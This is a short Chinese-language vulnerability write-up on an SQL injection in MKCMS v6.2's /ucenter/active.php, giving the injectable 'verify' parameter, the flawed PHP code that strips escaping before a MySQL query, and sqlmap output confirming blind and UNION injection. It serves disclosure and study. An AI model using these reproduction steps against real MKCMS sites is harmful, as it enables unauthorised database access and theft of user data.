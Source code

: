 # MKCMS v6.2 /ucenter/active.php前台sql注入漏洞

### 一、漏洞简介

### 二、漏洞影响

MKCMS v6.2

### 三、复现过程

/ucenter/active.php?verify=1存在注入


```php
/ucenter/active.php
<?php
...
$verify = stripslashes(trim($_GET['verify']));  //去掉了转义用的\
$nowtime = time();
$query = mysql_query("select u_id from mkcms_user where u_question='$verify'");
$row = mysql_fetch_array($query);
...
```

sqlmap直接跑即可


```bash
[INFO] GET parameter 'verify' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
[INFO] GET parameter 'verify' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
```

参考链接

https://xz.aliyun.com/t/7580#toc-4